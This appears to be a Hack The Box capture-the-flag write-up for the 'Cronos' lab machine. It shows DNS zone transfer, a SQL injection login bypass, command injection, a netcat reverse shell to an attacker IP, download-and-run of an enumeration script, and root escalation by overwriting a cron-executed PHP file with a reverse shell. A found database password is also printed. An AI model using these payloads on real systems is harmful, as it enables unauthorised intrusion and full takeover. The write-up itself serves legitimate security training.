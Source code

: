 ```yaml
---
title: Cronos Writeup - Hack The Box
description: Performing SQL and command injection to exploit cron jobs
author: Nontas Bakoulas
date: 2025-10-03
category: HTB Machines
reading_time: 15
---
```


## Enumeration

Let's start with `nmap`:
```console title="Nmap scan"
nontas@local$ nmap -sV -sC 10.129.227.211                              
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-03 11:17 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 6.20% done; ETC: 11:17 (0:00:30 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.80% done; ETC: 11:17 (0:00:10 remaining)
Nmap scan report for 10.129.227.211
Host is up (0.051s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.80 seconds
```

Visiting the website we see the following: ![Default Apache page](/images/blog/cronos/20251003113032.png)

We find the domain name using `nslookup`:
```console title="DNS lookup"
nontas@local$ nslookup 10.129.227.211 10.129.227.211
211.227.129.10.in-addr.arpa	name = ns1.cronos.htb.
```
it is `cronos.htb`.

Let's try a zone transfer to get all of the records from the DNS:
```console title="Zone transfer"
nontas@local$ dig axfr cronos.htb @10.129.227.211

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr cronos.htb @10.129.227.211
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 51 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Fri Oct 03 11:38:09 EEST 2025
;; XFR size: 7 records (messages 1, bytes 203)
```
We find the subdomain `admin.cronos.htb`.

Add it to the `/etc/hosts` file:
```console
nontas@local$ echo "10.129.227.211 admin.cronos.htb" >> /etc/hosts
```

<Callout title="Note" type="info">I also added `cronos.htb` to `/etc/hosts` and fuzzed for files/directories, but I didn't get anything interesting.</Callout>

Now we're able to visit the login page: ![Login page](/images/blog/cronos/20251003114457.png)
## Initial Foothold
Submitting random credentials shows "Your Login Name or Password is invalid". It makes a POST request to `/` with body `username=nontas&password=123456`.

### SQL Injection
For SQLi, we first test characters like `'` and `"`, but nothing interesting happens. After some trial and error, we end up with the following successful SQLi for the `username`:
```txt
admin'-- -
```
and we manage to login as `admin`.

![Admin panel](/images/blog/cronos/20251003131918.png)

This page allows us to select either `traceroute` or `ping` and execute those commands.
### Command Injection
We can actually perform command injection directly, by just changing the command:
![Command injection](/images/blog/cronos/20251003132812.png)

Change the command to `cat /home/noulis/user.txt` (URL Encode it as well to be safe) to get the user flag.

### Reverse Shell
First, I'll start a `nc` listener:
```console
nontas@local$ nc -lnvp 4343
```

On Caido, I tried the [Bash TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp) reverse shells but they didn't work. Then, I tried the [Netcat OpenBsd](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd) shell and it worked successfully:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 4343 >/tmp/f
```
don't forget to URL encode it.

To upgrade the shell:
```console title="Shell upgrade"
python -c 'import pty; pty.spawn("/bin/bash")'
[CTRL+Z]
nontas@local$ stty raw -echo;fg
[ENTER 2 TIMES]
www-data@cronos:/var/www/admin$
```

## Privilege Escalation
There's an interesting `config.php` file inside:
```console title="Config file"
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php	welcome.php
www-data@cronos:/var/www/admin$ cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

To enumerate the host, we first start a python HTTP server that has the `LinEnum.sh`:
```console title="Setup HTTP server"
nontas@local$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
nontas@local$ python3 -m http.server 8082
```

and on the remote, we download and run it:
```console title="Download and run enumeration"
www-data@cronos:/var/www/admin$ wget http://10.10.14.78:8082/LinEnum.sh
www-data@cronos:/var/www/admin$ chmod +x LinEnum.sh 
www-data@cronos:/var/www/admin$ ./LinEnum.sh
```

### Cron Jobs
The script prints the following (among other things):
```txt
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
as we can see, `/var/www/laravel/artisan` which is a `php` file runs every minute as root.

We'll use the following php reverse shell (serve it via the python server):
```
/opt/lists/seclists/Web-Shells/laudanum-1.0/php/php-reverse-shell.php
```

and replace the old `artisan` file:
```console
www-data@cronos:/tmp$ mv /tmp/php-reverse-shell.php /var/www/laravel/artisan
```

<Callout title="Note" type="info">The `/tmp` directory is writable by all the users by default.</Callout>

Now if we start a new `nc` listener, we should get root access after ~ a minute.

```console title="Root access"
root@cronos:/# id
uid=0(root) gid=0(root) groups=0(root)
root@cronos:/# ls /root
fix_dns.sh  root.txt
```

We have successfully completed the **Cronos** machine!
